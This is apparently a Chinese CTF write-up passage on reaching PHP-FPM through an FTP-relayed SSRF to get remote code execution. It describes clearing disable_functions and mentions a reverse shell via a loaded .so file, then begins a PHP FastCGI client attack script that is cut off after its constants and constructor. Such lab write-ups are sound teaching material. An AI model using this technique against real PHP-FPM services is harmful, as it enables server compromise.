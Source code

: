 
这个读取过程也是很折磨，大概就是一点一点摸索吧，在配置文件发现了fastcgi的开放端口...然后就不会了...

![image-20210505162441456](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/05/2021-05-05-image-20210505162441456.png)

看wp发现师傅们用的是**ftp 与 php-fpm 对话 RCE**，具体可参考[这一篇文章](https://www.anquanke.com/post/id/233454)，后续我应该也会专门总结一篇关于fastcgi和fpm的文章。

那有了ftp的对话，思路就很清晰了，通过本地vps起一个ftp服务，在靶机上将**fpmRCE**的payload发送给ftp，再又ftp转发给靶机的9001端口形成ssrf，不得不说实在太巧妙了。

**fastcgi** 的攻击脚本有php和go的，经过测试都可以运行，在**php_value** 处把**disable_function**置空即可。有的师傅也利用了extension去加载**.so**反弹shell，不过我感觉既然蚁剑已经可以连接了，就不需要这一步。

```php
<?php

class FCGIClient
{
    const VERSION_1            = 1;
    const BEGIN_REQUEST        = 1;
    const ABORT_REQUEST        = 2;
    const END_REQUEST          = 3;
    const PARAMS               = 4;
    const STDIN                = 5;
    const STDOUT               = 6;
    const STDERR               = 7;
    const DATA                 = 8;
    const GET_VALUES           = 9;
    const GET_VALUES_RESULT    = 10;
    const UNKNOWN_TYPE         = 11;
    const MAXTYPE              = self::UNKNOWN_TYPE;
    const RESPONDER            = 1;
    const AUTHORIZER           = 2;
    const FILTER               = 3;
    const REQUEST_COMPLETE     = 0;
    const CANT_MPX_CONN        = 1;
    const OVERLOADED           = 2;
    const UNKNOWN_ROLE         = 3;
    const MAX_CONNS            = 'MAX_CONNS';
    const MAX_REQS             = 'MAX_REQS';
    const MPXS_CONNS           = 'MPXS_CONNS';
    const HEADER_LEN           = 8;

    private $_sock = null;

    private $_host = null;

    private $_port = null;

    private $_keepAlive = false;

    public function __construct($host, $port = 9001) // and default value for port, just for unixdomain socket
    {
        $this->_host = $host;
        $this->_port = $port;
    }

    public function setKeepAlive($b)
    {
        $this->_keepAlive = (boolean)$b;
        if (!$this->_keepAlive && $this->_sock) {
            fclose($this->_sock);
        }
    }

```